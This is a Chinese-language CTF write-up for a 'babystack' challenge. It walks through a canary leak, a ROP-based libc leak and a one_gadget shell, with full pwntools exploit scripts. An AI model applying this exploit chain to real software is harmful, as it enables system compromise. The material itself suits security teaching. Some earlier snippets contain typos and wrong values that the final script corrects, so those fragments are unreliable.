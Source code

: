 ## 2017年 厦门邀请赛 - babystack

##### 查看保护机制：

![](checksec.png)

#####定位漏洞

![](vul.png)

由上图可知，read函数可以读取0x100个字节，字符串s的位置为rbp-0x90h，所以这道题可以进行栈溢出。

#### 整体思路：

* 泄漏canary
* 修改返回地址，getshell

#### 1. 泄漏canary

这一部分我们需要知道3个知识点：

* read函数在读取限制长度的字符串内，也可以将`\n`读取进来
* puts函数遇到`0x00`时才会停止，`\n`不会停止
* canary为防止泄露，第一位已知为`\x00`

其实还需要知道 x64函数调用过程中栈的内容，这里不再详细描述。

##### 泄漏canary的思路就是：将存储在栈中的变量s填满，一直将canary最后一个字符`0x00`填上，在puts的时候，会一直输出到`0x00`结束，这样就可以得到顺序将canary输出。代码如下所示：

```
def getCanary():
    io.sendlineafter(">>","1")
    payload = cyclic(0x88)
    # 其实我们发送了0x89个字符，因为sendline会多发送一个回车，read也会将回车读入
    # s的内容是从低地址往高地址写，低位在低地址
    io.sendline(payload)

    io.sendlineafter(">>","2")
    io.recvuntil("\n")
    sleep(1)
    # 这是我们之前通过sendline输入的\n 读取的话也是从低地址向高地址读，接下来输出的就是canary了
    io.recvuntil("\n")
    
    canary = u64("0x00" + io.recv(7))
    log.debug("leak_canary -> 0x%x" % canary)
    return canary 
```

#### 2. 修改返回地址

这一部分的难点在于，将返回地址修改成什么，在这里我想填写one_gadget的方式。但是我们需要libc_base的地址。如何才能获得libc的地址呢。在这里学到了一个新方法。

思路是这样的：通过puts函数输出read函数got表中的值。这个过程通过构造rop来实现。然后减去read函数的偏移 就知道基地址是什么了。read函数的got放到puts函数的参数中，也就是rdi寄存器中 通过下面的指令寻找：

```
$ ROPgadget --binary babystack --only "pop|ret"
Gadgets information
============================================================
0x0000000000400a8c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a8e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a90 : pop r14 ; pop r15 ; ret
0x0000000000400a92 : pop r15 ; ret
0x0000000000400a8b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a8f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400778 : pop rbp ; ret
0x0000000000400a93 : pop rdi ; ret
0x0000000000400a91 : pop rsi ; pop r15 ; ret
0x0000000000400a8d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040067e : ret
0x0000000000400288 : ret 0x6c1f
0x0000000000400811 : ret 0x8b48

Unique gadgets found: 13
```

获取read函数got表的值代码如下所示：

```
def getBase(canary):
    read_got = elf.got['read']
    puts_plt = elf.plt['puts']
    read_got = elf.plt['read']

    start = 0x400908
    pop_rdi_ret = 0x0000000000400a93

    io.sendlineadter(">>","1")
    payload = cyclic(0x88) + p64(canary) * 2 + p64(pop_rdi_ret ) + p64(read_got) + p64(puts_plt) + p64(start)
    io.sendline(payload)
    # 为了触发
    io.sendlineafter(">>","3")

    sleep(1)
    read_leaked = u64(io.recv(6).ljust(8, '\x00'))
    log.debug("read_leaked -> 0x%x" % read_leaked)

    read_libc = libc.symbols["read"]
    libc_base = read_leaked - read_libc
    log.debug("leaked libcBase -> 0x%x" % libc_base)
    return libc_base

```
#### 注意：

`u64`将字符串转换成数字

![](u64.png)

但是必须是8个字符才行

![](u642.png)

所以我们需要在高位添加0x00

```
u64(t.recv(6).ljust(8, '\x00'))
```

这样就行。

ljust(8,'\x00')的效果如下所示：

```
>>> t.recv(6).ljust(8, '\x00')
'Hello,\x00\x00'
```
<mark>栈中 输入是由低向高 输出也是由低向高</mark>

#### 整个题的思路就是如下所示：

```
from pwn import *
import sys
from time import sleep
import pdb
context.log_level = 'debug'

io = process("./babystack")
elf = ELF("./babystack")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
exe_addr = 0x45216

def getCanary():
    io.sendlineafter(">> ", "1")
    payload = cyclic(0x88)
    #  debug()
    io.sendline(payload)
    io.sendlineafter(">> ", "2")
    sleep(1)
    io.recvuntil("\n")
    sleep(1)
    canary = u64("\x00" + io.recv(7))
    #  print hex(canary)
    log.debug("leaked canary -> 0x%x" % canary)
    return canary

def getBase(canary):
    read_got = elf.got["read"]
    read_plt = elf.plt["read"]
    puts_plt = elf.plt["puts"]
    #  start_plt = elf.symbols["start"]
    #  start_plt = 0x400720
    start_plt = 0x400908
    pop_rdi_ret = 0x0000000000400a93
    pop_rsi_r15_ret = 0x0000000000400a91
    io.sendlineafter(">> ", "1")
    #  log.info("------------------")
    payload = cyclic(0x88) + p64(canary) * 2 + p64(pop_rdi_ret) + p64(read_got) + p64(puts_plt) + p64(start_plt)
    #  print len(payload)
    io.sendline(payload)
    io.sendlineafter(">> ", "3")
    #  debug()
    #  log.info("------------------")
    sleep(1)
    read_leaked = u64(io.recv(6).ljust(8, '\x00'))
    log.debug("read_leaked -> 0x%x" % read_leaked)
    read_libc = libc.symbols["read"]
    libc_base = read_leaked - read_libc
    log.debug("leaked libcBase -> 0x%x" % libc_base)
    return libc_base

def getShell(canary, libcBase):
    io.sendlineafter(">> ", "1")
    exeAddr = libcBase + exe_addr
    payload = cyclic(0x88) + p64(canary) * 2 + p64(exeAddr)
    io.sendline(payload)
    #  debug()
    io.sendlineafter(">> ", "3")

    io.interactive()
    io.close()

if __name__ == "__main__":
    io = process("./babystack")
    elf = ELF("./babystack")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    exe_addr = 0x45216
    canary = getCanary()
    libcBase = getBase(canary)
    canary = getCanary()
    getShell(canary, libcBase)

```




